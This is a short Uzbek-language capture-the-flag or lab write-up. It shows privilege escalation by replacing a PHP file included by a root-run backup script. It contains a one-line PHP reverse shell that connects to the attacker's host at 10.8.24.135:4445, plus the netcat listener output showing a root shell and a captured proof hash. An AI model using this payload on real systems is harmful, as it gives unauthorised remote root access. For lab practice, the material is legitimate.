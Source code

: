 AutoBackUp system ekan.

Ushbu kod "lib/backup.inc.php"ga murojat qilmoqda biz uni o'zgartirib reverse shell joylaymiz.

```
sysadmin@ip-10-10-46-101:~/scripts/lib$ rm backup.inc.php
rm backup.inc.php
rm: remove write-protected regular file 'backup.inc.php'? yes
yes
```



```
echo '<?php $s=fsockopen("10.8.24.135",4445);exec("/bin/sh -i <&3 >&3 2>&3"); ?>' >> backup.inc.php
```



Natija:

```
mete@sec ~/T/T/1806-2025> nc -nvln 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.46.101 36176
/bin/sh: 0: can't access tty; job control turned off
#
```

proof.txt'ni qo'lga kiritish:

```
# cd /root
# ls
proof.txt
snap
# cat proof.txt
ac0d56f93202dd57dcb2498c739fd20e

```


